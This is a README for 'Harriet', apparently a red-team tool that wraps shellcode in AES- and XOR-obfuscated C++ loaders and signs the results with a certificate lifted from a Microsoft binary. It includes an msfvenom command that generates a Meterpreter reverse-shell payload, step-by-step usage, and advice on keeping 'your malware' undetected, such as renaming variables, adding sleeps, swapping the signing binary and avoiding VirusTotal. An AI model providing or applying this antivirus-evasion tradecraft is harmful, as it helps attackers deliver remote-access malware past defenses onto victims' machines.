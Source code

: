 ![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender. Most of the code was taken from the Sektor 7 Malware Development Essentials course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 

![Screen Shot 2022-10-17 at 12 14 33 PM](https://user-images.githubusercontent.com/76174163/196229183-c96e9a38-8466-4ebd-81ab-35934877d559.png)

The payload framework is very effective when paired with my Covenant Randomizer script.

![Screen Shot 2022-10-17 at 12 15 10 PM](https://user-images.githubusercontent.com/76174163/196229270-49bb9d83-a18d-4cb6-b1b7-b798fca19d4c.png)

I was able to bypass Defender with Covenant with no problems.

![Screen Shot 2022-10-17 at 11 59 31 AM](https://user-images.githubusercontent.com/76174163/196239034-54866187-c461-4735-be81-9821c3a1e9a0.png)

I was also able to bypass Defender with a Meterpreter payload. This might not be as effective since Meterpreter is signatured so heavily. Your results will vary without modifying your Meterpreter payload's template inside Metasploit. Going with lesser used payloads will probably yield good results. 

**Modules**

![Screen Shot 2022-10-17 at 12 12 15 PM](https://user-images.githubusercontent.com/76174163/196239966-8d41b19b-6d66-4a80-a72c-4d1554197702.png)

There are four modules currently. As of this post, all of them bypass AV/Defender. 
 
AES Encrypted payload

AES Encrypted payload with process injection

QueueUserAPC shellcode execution

ThreadPoolWait shellcode execution. 

All of the modules use XOR encryption for strings and function obfuscation and AES encryption for payload exection. Once the payload is compiled, the script uses SigThief to sign the binary with a Microsoft certificate. 

**Usage:** 

Clone The Repo

**git clone https://github.com/assume-breach/Home-Grown-Red-Team.git**

Run The Setup Script

**cd Home-Grown-Red-Team/Harriet/
bash setup.sh**
The setup script will give you the self-signed cert you need for executable signing.

Create Your Payload

**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script

**bash Harriet.sh **

Fill In The Values As Prompted

**Mitigations**

There are a few issues that you should be aware of. The first is that this will be detected at some point. Eventually, it will wind up on VT or the AV engines will signature it. There are mitigations that you can take to customize it. The first is to change the Virt_Alloc variable in all of the scripts. The second is to change all of the values in the randomization scripts. Adding various sleep functions within the scripts can also keep the script from being signatured. The binary that Harriet uses to sign your malware is a Microsoft Office 365 updater. You can switch this out with a different binary and replace the path for your new exe in the scripts. This can help with keeping your malware undetected. 

**Enjoy and DON'T UPLOAD TO Virus Total!!!!!**
